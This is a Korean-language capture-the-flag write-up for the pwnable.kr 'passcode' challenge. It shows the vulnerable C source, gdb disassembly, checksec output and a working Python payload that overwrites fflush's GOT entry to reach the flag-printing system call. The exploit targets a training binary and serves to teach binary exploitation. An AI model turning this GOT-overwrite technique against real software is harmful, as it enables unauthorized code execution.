

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

우선 welcome함수의 name은 ebp-0x70만큼의 크기를 가진다.

    (gdb) disas welcome
    Dump of assembler code for function welcome:
        0x08048609 <+0>:     push   %ebp
        0x0804860a <+1>:     mov    %esp,%ebp
        0x0804860c <+3>:     sub    $0x88,%esp
        0x08048612 <+9>:     mov    %gs:0x14,%eax
        0x08048618 <+15>:    mov    %eax,-0xc(%ebp)
        0x0804861b <+18>:    xor    %eax,%eax
        0x0804861d <+20>:    mov    $0x80487cb,%eax
        0x08048622 <+25>:    mov    %eax,(%esp)
        0x08048625 <+28>:    call   0x8048420 <printf@plt>
        0x0804862a <+33>:    mov    $0x80487dd,%eax
        0x0804862f <+38>:    lea    -0x70(%ebp),%edx

welcome함수에서의 ebp주소를 확인해 보면 0xff88adb8이다. (ASLR이 적용되어 있어 실행마다 변함)

    (gdb) b *welcome+61
    Breakpoint 1 at 0x8048646
    (gdb) r
    Starting program: /home/passcode/passcode
    Toddler's Secure Login System 1.0 beta.
    enter you name : a

    Breakpoint 1, 0x08048646 in welcome ()
    (gdb) info reg
    eax            0x80487e3        134514659
    ecx            0x1      1
    edx            0xff88ad48       -7819960
    ebx            0x0      0
    esp            0xff88ad30       0xff88ad30
    ebp            0xff88adb8       0xff88adb8

다음으로 login에서의 ebp를 확인해본면 passcode1(ebp-0x10)과 passcode2(ebp-0xC)가 할당받은 주소를 name buffer와 겹치는 것을 알 수 있다.

    (gdb) disas login
    Dump of assembler code for function login:
        0x08048564 <+0>:     push   %ebp
        0x08048565 <+1>:     mov    %esp,%ebp
        0x08048567 <+3>:     sub    $0x28,%esp
        0x0804856a <+6>:     mov    $0x8048770,%eax
        0x0804856f <+11>:    mov    %eax,(%esp)
        0x08048572 <+14>:    call   0x8048420 <printf@plt>
        0x08048577 <+19>:    mov    $0x8048783,%eax
        0x0804857c <+24>:    mov    -0x10(%ebp),%edx
    ...
    (gdb) b *login+24
    Breakpoint 2 at 0x804857c
    (gdb) c
    Continuing.
    Welcome a!

    Breakpoint 2, 0x0804857c in login ()
    (gdb) info reg
    eax            0x8048783        134514563
    ecx            0x0      0
    edx            0xf776e870       -143202192
    ebx            0x0      0
    esp            0xff88ad90       0xff88ad90
    ebp            0xff88adb8       0xff88adb8

또한 소스를 확인해 보면 int형인데 주소를 넘기지 않고 scanf를 호출한다. 이는 passcode1, 2가 할당받은 주소가 위치한 값에 해당하는 주소에 데이터를 입력하겠다는 것이다.

```cpp
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

여기서 취약점은 login함수에서 fflush의 got주소를 system으로 변경하면 된다. 즉, name buffer에서 passcode1에 해당하는 주소에 fflush의 got주소를 넣고, passcode1을 입력하는 scanf에서는 system주소를 입력하여 fflush의 got을 system주소로 overwrite하는 것이다.

메모리 보호 기법을 확인 하면 No PIE이므로 스택의 주소는 변하더라도(ASLR) 함수의 주소는 변하지 않는다.

```sh
passcode@pwnable:~$ checksec passcode
[*] '/home/passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

우선 fflush got의 주소를 확인하면 0x804a004임을 알 수 있다.

```sh
passcode@pwnable:~$ gdb -q passcode
Reading symbols from passcode...(no debugging symbols found)...done.
(gdb) p fflush
$1 = {<text variable, no debug info>} 0x8048430 <fflush@plt>
(gdb) x/i 0x8048430
   0x8048430 <fflush@plt>:      jmp    *0x804a004
```

다음으로 system함수의 주소를 확인하면 0x80485e3임을 알 수있다. 하지만 scanf가 %d이므로 10진수로 변환하면 134514147이다.

    0x080485e3 <+127>:   movl   $0x80487af,(%esp)
    0x080485ea <+134>:   call   0x8048460 <system@plt>

exploit payload는 다음과 같다. dummy(0x70-0x10)+fflush got address

```sh
passcode@pwnable:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"';cat)|./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
134514147
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

enter you name은 "A"*96+"\x04\xa0\x04\x08"으로 넘겨지고, passcode1입력은 cat으로 입력하여 flag를 획득할 수 있다.


# **FLAG**

**Sorry mom.. I got confused about scanf usage :(**